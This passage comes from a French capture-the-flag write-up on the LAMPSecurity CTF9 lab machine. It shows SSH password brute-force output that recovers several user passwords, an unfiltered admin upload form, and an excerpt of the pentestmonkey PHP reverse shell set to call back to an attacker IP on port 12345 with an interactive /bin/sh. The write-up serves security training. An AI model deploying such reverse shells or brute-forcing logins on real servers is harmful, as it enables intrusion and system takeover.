 ```console
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: eve (4 of 5, 3 complete) Password: invisible (4 of 5 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: eve Password: invisible [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: hacking (1 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: madirish.net (2 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: billybob (3 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: invisible (4 of 5 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.103 (1 of 1, 0 complete) User: alice (5 of 5, 4 complete) Password: $investment$ (5 of 5 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: alice Password: $investment$ [SUCCESS]
```

Bingo ! Seule la personne derrière le compte ```root``` a opté pour un mot de passe différent de celui de l'interface d'administration du site Internet. Cela dit, dans l'éventualité où les mots de passe n'auraient pas été si faciles que cela à deviner, il aurait tout de même été possible d'obtenir un shell sur la VM.

## Formulaire d'upload de l'IHM admin et mise en place d'un reverse shell

En effet, parmi les fonctionnalités du portail d'administration de _LAMPSecLabs_, on y trouve un formulaire d'upload de fichiers images. Or cette fonctionnalité n'est pas filtrée, car après plusieurs tests, on constate qu'il est possible d'uploader n'importe quel type de fichier, et pas seulement des JPG, des PNG ou des BMP...

Il est ainsi possible de transférer [un script malveillant](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, d'y exécuter des commandes arbitraires et d'en prendre le contrôle. Le principe est le suivant : un reverse shell en PHP va être créé et déposé sur le serveur. Ce bout de code va créer une connexion sur le port 12345 entre le serveur LampSecurity CTF9 (192.168.56.103) et notre propre machine (192.168.56.101).

![Affichage de l'image CTF9_admin_upload.png](images/CTF9_admin_upload.png)

Le _reverse shell_ mis à disposition par [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) fonctionne toujours à merveille ! Extrait...

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.56.101';  // CHANGE THIS
$port = 12345;           // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
